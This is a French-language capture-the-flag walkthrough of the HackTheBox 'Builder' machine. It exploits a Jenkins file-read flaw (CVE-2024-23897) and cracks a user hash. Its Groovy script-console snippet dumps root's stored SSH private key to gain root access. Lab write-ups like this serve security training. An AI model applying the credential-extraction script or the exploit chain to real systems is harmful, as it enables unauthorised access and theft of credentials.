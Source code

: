 # HackTheBox: Builder

![](images/builder_lg.png)

## Étapes de l'attaque

La première étape consistait à scanner la machine cible pour découvrir les services ouverts et les vulnérabilités potentielles. J'ai lancé un scan avec Nmap en utilisant la commande suivante :

```bash
sudo nmap -p- -Pn --min-rate 10000 -v -A -oA builder 10.10.11.10
```
- Résultats du scan Nmap

![](images/nmap_output.png)

![](images/jenkins_version.png)

### Recherche de vulnérabilté

En recherchant des informations sur le serveur Jenkins, j'ai découvert qu'il était vulnérable à une lecture de fichier arbitraire avec le CVE `CVE-2024-23897`.

![](images/jenkins_poc.png)

### Exploitation de la vulnérabilité

J'ai téléchargé le script [jenkins_fileread.py](https://github.com/godylockz/CVE-2024-23897) et je l'ai exécuté pour trouver des données sensibles.

![](images/jenkins_filereading.png)

Finalement, j'ai obtenu le hash de l'utilisateur `jennifer`.

![](images/user_pass_hash.png)

### Cracking du hash

J'ai utilisé John The Ripper pour cracker le mot de passe

![](images/user_pass_crack.png)

### Connexion au serveur Jenkins

Je me suis connecté au tableau de bord du serveur Jenkins avec les informations d'identification obtenues.

![](images/user_login.png)

### Escalade de privilèges

Je me suis souvenu d'un challenge précédent réalisé avec un ami [0xMR8anem](https://0xmr8anem.medium.com/) sur le defi [Impostor](https://0xmr8anem.medium.com/l3akctf-2024-forensics-writeups-3b5575f07cba), et j'ai décidé d'essayer une méthode similaire ici.

En cherchant des utilisateurs sur le serveur Jenkins, j'ai découvert que l'utilisateur root était présent à `http://10.10.11.10:8080/credentials/store/system/domain/_/` avec l'ID 1.

![](images/root_saw.png)

Je suis allé sur `http://10.10.11.10:8080/script` et j'ai exécuté le script suivant pour obtenir la clé privée SSH de l'utilisateur root 

```bash
def credentialId = '1' // Remplacez par l'ID de l'identifiant global
def credential = jenkins.model.Jenkins.instance.getExtensionList('com.cloudbees.plugins.credentials.SystemCredentialsProvider')[0].getCredentials().find { it.id == credentialId }

if (credential instanceof com.cloudbees.jenkins.plugins.sshcredentials.impl.BasicSSHUserPrivateKey) {
    def privateKey = credential.privateKey
    println privateKey
} else {
    println "La crédential avec l'ID spécifié n'est pas du type BasicSSHUserPrivateKey."
}

```
![](images/ssh_priv.png)

### Connexion en tant que root 

J'ai obtenu la clé privée SSH et me suis connecté en tant que root.

![](images/builder_rooted.png)

### Machine pwned

La machine est maintenant compromise.

![](images/builder_pwned.png)
